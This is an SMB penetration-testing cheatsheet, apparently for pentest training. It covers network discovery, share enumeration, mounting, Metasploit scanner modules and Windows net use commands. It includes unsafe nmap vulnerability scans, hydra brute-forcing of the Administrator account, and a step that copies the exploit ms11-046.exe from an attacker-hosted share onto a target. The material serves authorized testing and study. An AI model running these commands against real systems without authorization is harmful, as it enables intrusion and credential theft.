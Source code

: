 ## SMB - Cheatsheet

#### Discovery - Scanning for SMB Services
Find hosts

	nmap -v -p 139,445 <host/24>
	
ntbscan is used to query the NetBIOS name service for valid NetBIOS names
	
	sudo nbtscan -r <host/24>
	
Other useful Nmap commands

	nmap --script smb-enum-shares.nse -p445 <host>
	sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 <host>
	nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 <host>
	nmap -v -p 139,445 --script=smb* --script-args=unsafe=1 <host>
	
SMBMap

	smbmap -H [ip/hostname]
	smbmap --host-file <hosts.txt>
	smbmap --host-file SMB-HOSTS-WithOpenShares1.txt -d "domain.local" -u "username" -p "password"  

More SMBMap

	https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html#smbmap
	
---

#### Accessing an SMB Share With Linux Machines
this will return a list of names of drives or printers that it can share with you. Unless the SMB server has no security configured, it will ask you for a password.

	smbclient -L <host>
	
Reach a directory that has been shared

	smbclient \\\\<host>\\<drive> <password>

---

#### Mount and Unmount

Create a directory to mount to 

	mkdir <directory>
	
Mount	

	sudo mount -t cifs //<ip>/<drive> ~/<directory>/ -o rw

The user option  ` -o user=Administrator `

	cd <directory> && ls
	
Unmount

	umount ~/<directory>
	
---

#### Accessing an SMB Share With Windows Machines

The first command will list all currently connected shares. The second will create a connection to the named shared at the given host (in our case, typically an IP address). The third command will close that connection.

	C:\>net use
	C:\>net use \\[host]\[share name]
	C:\>net use /d \\[host]\[share name]

Connect

	net use \\10.11.0.XXX\smb
	
Copy the file

	copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe

---

### Start SMB Share

- shareName can be anything
- sharePath path of the folder you want to share

`impacket-smbserver.py shareName sharePath`

---

### Brute Force

	nmap --script smb-brute -p 445 <IP>
	hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

---
### Metasploit Modules

- Enumerate drives (authenticated and unauthenticated).

		use auxiliary/scanner/smb/smb_enumshares
		
- Enumerate users (authenticated and unauthenticated).

		use auxiliary/scanner/smb/smb_enumusers
	
- Brute-force using username and password lists.

		use auxiliary/scanner/smb/smb_login
		
- Find local users exist the system

		use auxiliary/scanner/smb/smb_lookupsid
		
- Find SMB version

		use auxiliary/scanner/smb/smb_version
		
---

### Guides

	https://www.nopsec.com/smbmap-wield-it-like-the-creator/
	
	https://book.hacktricks.xyz/pentesting/pentesting-smb

---

#### References
- Metasploit Modules https://www.offensive-security.com/metasploit-unleashed/scanner-smb-auxiliary-modules/
- https://tldp.org/HOWTO/SMB-HOWTO-8.html
